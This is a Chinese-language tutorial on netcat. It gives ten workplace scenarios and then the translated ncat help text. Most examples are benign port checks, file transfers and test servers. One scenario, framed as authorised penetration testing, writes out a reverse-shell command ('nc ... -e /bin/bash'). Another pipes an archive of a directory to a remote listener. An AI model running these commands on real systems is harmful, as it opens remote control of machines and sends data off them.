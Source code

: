 nc命令，全称netcat，是一种功能强大的网络工具，被广泛用于网络调试和探测。它通常被称为“网络界的瑞士军刀”，因为它能够执行多种网络相关的任务。这些任务包括：

**1.场景：IT支持团队测试公司网站的端口连通性**

- 业务需求：验证公司网站（例如`companywebsite.com`）的HTTP（80）端口是否开放。
- 命令：`nc -zv companywebsite.com 80`
- 这个命令会尝试连接到`companywebsite.com`的80端口，并显示是否成功连接。

**2.场景：系统管理员快速搭建一个文件传输服务**

- 业务需求：系统管理员需要在192.168.1.5的服务器上快速搭建一个文件传输服务，以便其他用户可以下载一个名为`important_data.zip`的文件。
- 命令（服务器端）：`nc -lk 1234 < /path/to/important_data.zip`
- 命令（客户端）：`nc 192.168.1.5 1234 > important_data.zip`
- 这两个命令分别在服务器上创建了一个发送文件的服务，并在客户端启动了文件的接收。

**3.场景：网络工程师测试内部DNS服务器的UDP端口**

- 业务需求：网络工程师需要测试公司内部DNS服务器（例如IP为192.168.1.10）的53端口是否正常。
- 命令：`nc -zvu 192.168.1.10 53`
- 这个命令用于检查UDP端口53在192.168.1.10上是否开放。

**4.场景：开发人员模拟简单的HTTP请求以调试API**

- 业务需求：开发人员需要向本地运行的Web服务（例如在8080端口）发送一个HTTP GET请求，以检查API响应。
- 命令：`echo -e "GET /api/test HTTP/1.1\r\nHost: localhost\r\n\r\n" | nc localhost 8080`
- 这个命令模拟了向本地8080端口的Web服务发送HTTP GET请求。

**5.场景：安全团队进行内部渗透测试**

- 业务需求：安全团队在进行授权的渗透测试时，需要从一台内部机器（例如IP为192.168.1.50）建立反向Shell连接到测试服务器（例如IP为192.168.1.100，端口1234）。
- 命令（测试服务器）：`nc -lk 1234`
- 命令（内部机器）：`nc 192.168.1.100 1234 -e /bin/bash`
- 这对命令建立了一个从内部机器到测试服务器的反向Shell连接。

**6.场景：技术支持团队进行远程诊断**

- 业务需求：技术支持需要远程连接到客户的机器以收集诊断信息。客户的机器IP为192.168.1.20，技术支持的监听服务器IP为192.168.1.100，端口5555。
- 命令（技术支持的监听服务器）：`nc -lk 5555`
- 命令（客户的机器）：`tar czf - /path/to/diagnostic/data | nc 192.168.1.100 5555`
- 这两个命令允许客户的机器将诊断数据压缩并发送到技术支持的监听服务器。

**7.场景：数据库管理员检查数据库端口的连通性**

- 业务需求：数据库管理员需要检查是否可以从远程访问数据库服务器（假设IP为192.168.1.30）上的MySQL端口（3306）。
- 命令：`nc -zv 192.168.1.30 3306`
- 这个命令用于检查192.168.1.30的3306端口是否开放。

**8.场景：网络管理员创建一个简单的聊天服务**

- 业务需求：网络管理员想在内部网络上快速搭建一个临时的聊天服务，方便团队成员之间的沟通。服务运行在端口7777。
- 命令（服务端）：`nc -lk 7777`
- 命令（客户端）：`nc 192.168.1.100 7777`
- 这对命令在192.168.1.100的7777端口上创建了一个简单的聊天服务。

**9.场景：软件开发者测试自定义TCP协议**

- 业务需求：软件开发者正在开发一个基于TCP的自定义协议，需要在本地测试协议的有效性。
- 命令（模拟服务器）：`nc -lk 8888`
- 命令（模拟客户端）：`nc localhost 8888`
- 通过这对命令，开发者可以在本地8888端口模拟TCP服务器和客户端，进行协议测试。

**10.场景：系统管理员测试内部邮件服务器**

- 业务需求：系统管理员需要测试公司内部邮件服务器（例如IP为192.168.1.40）的SMTP端口（25）是否正常工作。
- 命令：`nc 192.168.1.40 25`
- 这个命令允许系统管理员手动与SMTP服务进行交互，以验证其功能。

这些场景展示了`nc`在各种实际业务环境中的多样性和实用性。请记住，在使用这些命令时需要确保网络安全，并且根据操作系统和`nc`版本的不同，可能需要调整命令的具体参数。





```bash
# nc --help
Ncat 7.50 ( https://nmap.org/ncat )
使用方法: ncat [选项] [主机名] [端口]

带时间的选项默认为秒。可附加'ms'表示毫秒，'s'表示秒，'m'表示分钟，或'h'表示小时（例如 500ms）。
  -4                         仅使用IPv4
  -6                         仅使用IPv6
  -U, --unixsock             仅使用Unix域套接字
  -C, --crlf                 使用CRLF作为行结束序列
  -c, --sh-exec <command>    通过/bin/sh执行给定命令
  -e, --exec <command>       执行给定命令
      --lua-exec <filename>  执行给定的Lua脚本
  -g hop1[,hop2,...]         松散源路由跳点（最多8个）
  -G <n>                     松散源路由跳点指针（4, 8, 12, ...）
  -m, --max-conns <n>        最大<n>个同时连接
  -h, --help                 显示此帮助屏幕
  -d, --delay <time>         读/写之间等待时间
  -o, --output <filename>    将会话数据转储到文件
  -x, --hex-dump <filename>  以十六进制形式将会话数据转储到文件
  -i, --idle-timeout <time>  读/写空闲超时
  -p, --source-port port     指定使用的源端口
  -s, --source addr          指定使用的源地址（不影响-l）
  -l, --listen               绑定并监听传入连接
  -k, --keep-open            在监听模式下接受多个连接
  -n, --nodns                不通过DNS解析主机名
  -t, --telnet               应答Telnet协商
  -u, --udp                  使用UDP而非默认的TCP
      --sctp                 使用SCTP而非默认的TCP
  -v, --verbose              设置详细级别（可多次使用）
  -w, --wait <time>          连接超时
  -z                         零I/O模式，仅报告连接状态
      --append-output        追加而非覆盖指定的输出文件
      --send-only            仅发送数据，忽略接收到的；EOF时退出
      --recv-only            仅接收数据，不发送任何数据
      --allow                仅允许给定主机连接到Ncat
      --allowfile            允许连接到Ncat的主机列表文件
      --deny                 拒绝给定主机连接到Ncat
      --denyfile             被拒绝连接到Ncat的主机列表文件
      --broker               启用Ncat的连接代理模式
      --chat                 启动一个简单的Ncat聊天服务器
      --proxy <addr[:port]>  指定要通过的代理主机地址
      --proxy-type <type>    指定代理类型（"http"或"socks4"或"socks5"）
      --proxy-auth <auth>    使用HTTP或SOCKS代理服务器进行认证
      --ssl                  使用SSL进行连接或监听
      --ssl-cert             指定SSL证书文件（PEM）用于监听
      --ssl-key              指定SSL私钥（PEM）用于监听
      --ssl-verify           验证证书的信任和域名
      --ssl-trustfile        包含受信任SSL证书的PEM文件
      --ssl-ciphers          包含要使用的SSL加密套件的Cipherlist
      --version              显示Ncat的版本信息并退出

查看ncat(1)手册页以获取完整
```

